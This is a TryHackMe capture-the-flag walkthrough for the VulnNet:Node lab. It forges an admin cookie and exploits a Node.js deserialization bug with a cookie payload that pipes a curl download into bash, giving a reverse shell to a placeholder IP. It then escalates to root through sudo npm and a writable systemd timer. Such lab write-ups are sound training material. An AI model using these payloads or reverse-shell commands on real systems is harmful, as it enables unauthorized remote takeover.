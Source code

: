 # [VulnNet:Node TryHackMe Writeup/Walkthrough][1]

VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have one port open: `8080`.

![Searchspolit Search](images/searchsploit.jpg)
> Found RCE, maybe off some use later.

I did `gobuster` scan but didn't find much really. I checked the website then.

![Website](images/website.jpg)
> Nothing much on this blogs but found a *LOGIN NOW* page.

Nothing much to work with. I then checked the *cookies* under `Inspect Element > Storage`. I copied and paste the value onto the [CyberChef][3] website.

Use `URL Decode` and `From Base64` to get the text.

![Decoded Text](images/cookie_decode.jpg)

I change the text to: `{"username": "Admin", "isAdmin":true, "encoding":"utf-8"}` and encoded the text with `ToBase64` and then `URL Encode`. Just as how we decrypted it.

![Encoded Text](images/cookie_encode.jpg)

Copy this text and paste it in the value field and refresh the webpage.  For a flash second I see *something Admin*. Let's fireup  **BurpSuite**.

Intercept the request and check in repeater.

![Admin Login Page](images/admin_login.jpg)
> Got Admin access.

Delete part of cookie and check their error handling system. Fascinatingly there are direct error messages.

![Error Message](images/cookie_error.jpg)

Searched cookie exploit online and will found an interesting cookie exploit on [exploit-db][4].

> Reading into the exploit

I then create a file called `shell.sh` with the content -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1` and started a local server using python -> `python3 -m http.server`

![Server](images/start_server.jpg)


Also, start a `netcat` listener in other terminal -> `nc -lvnp 4444`.

Now lets configure the cookie and send it to the server.

I configure it according the need of the server -> `{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl <YOUR_IP>:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}`

![Encode Shell](images/encode_shell.jpg)
> Encode the cookie

Paste this after `session=` under cookie and send the request in BurpSuite.

Go back to your terminal where you had `nc` listener. You will see a reverse connection.

![Got Shell](images/got_shell.jpg)

I looked around and checked my access for this shell.

![Access](images/access.jpg)

There was nothing much. I then checked what programs I can run using `sudo -l`.

![Sudo L](images/sudo_l.jpg)

We can run `npm` as `serv-manage`. Let's search this on [GTFOBins][5]. I found the exploit to get the sudo access.

![Got User](images/got_user.jpg)
> BAAM! We got the access.

Let's stabilize the shell first. CMD -> `python -c 'import pty;pty.spawn("/bin/bash")'`

![Stable Shell](images/shell_stable.jpg)

I got the user flag.

#### Privilege Escalation

For the `root`, let's check what programs I can run.

![SUDO L](images/sudo_l_user.jpg)
> Seems like I can run three commands as root.

Let's find this `vulnnet-auto.timer` file. For this we can use `locate` command.

![Locate File](images/file_locate.jpg)
> We have write access to this file as we are in `serv-manage` group.

Let's check the content of this file.

![File Content](images/content_file.jpg)
> Seems like this file is running other file called `vulnnet-job.service`

[Viewing the file]

This file is running a bash script. We can replace the bash script with the pervious curl command and get the root access. (If you have shutdown the python server, start it again)

I was not able to edit it properly. So I copied the content and created a file with the same name locally.

Also change the port in `shell.sh` to `4445`

![Content Exploit](images/content_exploit.jpg)

I then sent this file to the server using `curl` command.

![Get Files](images/get_file.jpg)
> Also dont forgot to start a listener again in a different terminal -> `nc -lvnp 4445`

Wait for a bit and you will get the connection. If not, run the command to which we had access -> `sudo /bin/systemctl stop vulnnet-auto.timer` and then `sudo /bin/systemctl start vulnnet-auto.timer`

![Got Shell](images/got_rev_shell.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/vulnnetnode
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://gchq.github.io/CyberChef/
[4]: https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf
[5]: https://gtfobins.github.io/gtfobins/npm/
